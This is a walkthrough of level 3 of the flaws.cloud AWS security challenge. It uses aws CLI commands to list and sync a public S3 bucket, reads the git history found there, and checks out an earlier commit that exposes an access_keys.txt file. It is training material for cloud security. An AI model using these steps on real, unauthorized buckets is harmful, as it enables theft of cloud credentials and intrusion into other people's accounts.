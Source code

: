 For hints, see Hint 1

List all bucket files, assuming 'Authenticated AWS User' permissions: 

`aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ --region us-west-2`

```
                           PRE .git/
2017-02-26 19:14:33     123637 authenticated_users.png
2017-02-26 19:14:34       1552 hint1.html
2017-02-26 19:14:34       1426 hint2.html
2017-02-26 19:14:35       1247 hint3.html
2017-02-26 19:14:33       1035 hint4.html
2020-05-22 14:21:10       1861 index.html
2017-02-26 19:14:33         26 robots.txt
```

We see ".git/" folder, pull all files down: 

`aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2`

Check git log: 

`git log`

```
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

Show bad commit: 

`git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61`

Check files: 

`ls`

```
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2021  11:40 AM             93 access_keys.txt
-a----         2/26/2017   7:14 PM         123637 authenticated_users.png
-a----         2/26/2017   7:14 PM           1552 hint1.html
-a----         2/26/2017   7:14 PM           1426 hint2.html
-a----         2/26/2017   7:14 PM           1247 hint3.html
-a----         2/26/2017   7:14 PM           1035 hint4.html
-a----         5/22/2020   2:21 PM           1861 index.html
-a----        10/30/2021  10:10 AM           1088 LICENSE
-a----         2/26/2017   7:14 PM             26 robots.txt
```
